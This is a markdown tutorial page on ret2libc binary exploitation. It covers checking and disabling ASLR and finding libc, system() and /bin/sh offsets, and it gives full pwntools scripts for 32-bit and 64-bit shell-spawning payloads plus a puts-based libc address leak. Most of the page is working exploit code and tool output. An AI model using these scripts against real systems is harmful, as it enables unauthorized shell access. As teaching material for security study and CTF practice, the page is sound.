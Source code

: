 ```yaml
---
title: Binary Exploitation with ret2libc
description: ret2libc (return-to-libc) allows an attacker to redirect the program's flow of execution from the current function to a function in a shared library, sucy as libc, the standard C library. The goal of libc is to execute malicious code, such as shellcode, by calling the standard library functions, such as system() or execve().
tags:
    - Reverse Engineering
refs:
    - https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc
    - https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/rop-leaking-libc-address
date: 2023-08-14
draft: false
---
```


## Exploitation

### 1. ASLR Bypass

First check the ASLR in the machine.

```bash
cat /proc/sys/kernel/randomize_va_space
```

If we get **"2"** as the result, the machine randomizes the address space so we cannot find the address of the system function. That’s why we need to bypass ASLR to find the address of the function in libc.

To disable ASLR, run the following command if we can (because it requires sudo).

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

### 2. Find libc in the Binary

```bash
ldd ./example

# Result examples
linux-vdso.so.1 (0x00007ffff7ffa000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff79e2000)
/lib64/ld-linux-x86-64.so.2 (0x00007ffff7dd3000)
```

For instance, we found the libc.so.6 and the base address of libc is `0x00007ffff79e2000`.

### 3. Find the Location of libc

```bash
# -s: Display the symbols
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system

# Result
1403: 000000000004f550    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
```

### 4. Find the Location of /bin/sh

```bash
# -a: All scan
# -t x: Print the location of the string in hex (x) 
strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh

# Result
1b3e1a /bin/sh
```

### 5. Craft Payload

Replace the values of libc_base, system, binsh with the values which we found in the previous sections.

- **32-bit**

    ```python
    from pwn import *

    p = process('./example')

    libc_base = 0xf7dc2000
    system = libc_base + 0x4f550
    binsh = libc_base + 0x1b3e1a

    payload = b'A' * 76         # The padding
    payload += p32(system)      # Location of system
    payload += p32(0x0)         # return pointer - not important once we get the shell
    payload += p32(binsh)       # pointer to command: /bin/sh

    p.clean()
    p.sendline(payload)
    p.interactive()
    ```

- **64-bit**

    In 64-bit, we need to find the address of **`pop rdi ; ret`**.

    - **Get POP RDI using Pwntools**
    
        We can easily do that using **`ROP`** method of **pwntools** as below.

        ```python
        rop = ROP(exe)
        POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
        print("pop rdi: ", hex(POP_RDI))
        ```

    - **Get POP RDI using ROPgadget**

        Alternatively, [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) can be used.

        ```bash
        ROPgadget --binary ./example | grep rdi

        # Result
        0x00000000004007f3 : pop rdi ; ret
        ```

        In some cases, we might need to the return address for paddings.

        ```python
        objdump -d ./example | grep ret

        # Result
        400556:	c3                   	retq
        ```

    Finally our script is below:

    ```python
    from pwn import *

    p = process('./example')

    libc_base = 0x7ffff7de2000
    system = libc_base + 0x4f550
    binsh = libc_base + 0x1b3e1a

    rop = ROP(exe)
    POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]

    payload = b'A' * 72         # The padding
    # payload += p64(0x400556)    # Extra paddings
    payload += p64(POP_RDI)     # gadget -> pop rdi; ret
    payload += p64(binsh)       # pointer to command: /bin/sh
    payload += p64(system)      # Location of system
    payload += p64(0x0)         # return pointer - not important once we get the shell

    # If we need to input in multiple prompts, 
    # p.clean()
    # p.sendline("1") e.g. "Select the menu:"
    p.clean()
    p.sendline(payload)
    p.interactive()
    ```

### 6. Optional: Leaking libc Address

If we need to find **`libc`** address dynamically, we may be able to leak the address by 

```python
exe = "./example"
elf = context.binary = ELF(exe)
libc = elf.libc

conn = process(elf)
# conn = remote("10.0.0.1", "1234")

# Find gadgets
rop = ROP(exe)
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
GOT_FUNC = elf.got['puts'] # e.g. desired function is `puts`
PLT_PUTS = elf.plt['puts']
SYM_FUNC = elf.sym['main'] # specific function name in which the payload is executed e.g. `main`.

padding = 0x12

# Send gadgets
payload = b"A" * padding
payload += p64(POP_RDI)
payload += p64(GOT_FUNC)
payload += p64(PLT_PUTS)
payload += p64(SYM_FUNC)

conn.sendlineafter(b">", payload)

# Extract leaked libc address
leaked_line = conn.recvline()
leaked_libc = unpack(leaked_line.ljust(8, '\x00'))
print("Leaked libc address: ", hex(leaked_libc))

# Get the system and /bin/sh addresses
libc_base = leaked_libc - libc.sym['puts']
system = libc_base + libc.sym['system']
binsh = libc_base + next(libc.search(b'/bin/sh'))

# Send the final payload
payload = b"A" * padding
payload += p64(POP_RDI)
payload += p64(binsh)
payload += p64(system)

conn.sendlineafter(b">", payload)

conn.interactive()
```
